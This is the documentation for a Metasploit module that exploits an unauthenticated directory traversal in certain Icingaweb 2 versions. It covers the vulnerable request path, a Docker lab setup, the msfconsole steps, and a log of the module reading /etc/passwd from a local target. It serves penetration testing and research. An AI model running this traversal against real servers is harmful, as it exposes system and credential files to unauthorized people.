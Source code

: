 ## Vulnerable Application

Icingaweb versions from 2.9.0 to 2.9.5 inclusive, and 2.8.0 to 2.8.5 inclusive suffer from an
unauthenticated directory traversal vulnerability. The vulnerability is triggered
through the icinga-php-thirdparty library, which allows unauthenticated users
to retrieve arbitrary files from the targets filesystem via a GET request to
`/lib/icinga/icinga-php-thirdparty/<absolute path to target file on disk>` as the user
running the Icingaweb server, which will typically be the `www-data` user.

This can then be used to retrieve sensitive configuration information from the target
such as the configuration of various services, which may reveal sensitive login or configuration information,
the `/etc/passwd` file to get a list of valid usernames for password guessing attacks, or other sensitive files
which may exist as part of additional functionality available on the target server.

This module was tested against Icingaweb 2.9.5 running on Docker.

## Install Icingaweb 2.9.5 on a Ubuntu 22.04 Docker Image

```
sudo apt-get install docker.io -y
sudo docker run -p 8080:8080 icinga/icingaweb2:2.9.5
```

Browse to port 8080 to confirm the site loads. No need to configure.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/icinga_static_library_file_directory_traversal`
4. Do: `set rhosts [ip]`
5. Do: `set file [file]`. On Docker use `/etc/passwd` for testing purposes.
6. Do: `run`
7. You should be able to retrieve a file

## Options

## Scenarios

### Icingaweb 2.9.5 on Ubuntu 22.04 running on Docker

```
[*] Processing icinga.rb for ERB directives.
resource (icinga.rb)> use scanner/http/icinga_static_library_file_directory_traversal
resource (icinga.rb)> set rhosts 127.0.0.1
rhosts => 127.0.0.1
resource (icinga.rb)> set file /etc/passwd
file => /etc/passwd
resource (icinga.rb)> check
[*] 127.0.0.1:8080 - The service is running, but could not be validated. 127.0.0.1:8080     - Icinga Web 2 found, unable to determine version.
resource (icinga.rb)> run
[+] root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin

[+] /etc/passwd saved to /root/.msf4/loot/20230421161654_default_127.0.0.1_icingafile_070863.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (icinga.rb)> loot

Loot
====

host          service  type         name         content     info  path
----          -------  ----         ----         -------     ----  ----
127.000.0.01           icinga file  /etc/passwd  text/plain        /root/.msf4/loot/20230421161654_default_127.0.0.1_icingafile_070863.txt
```
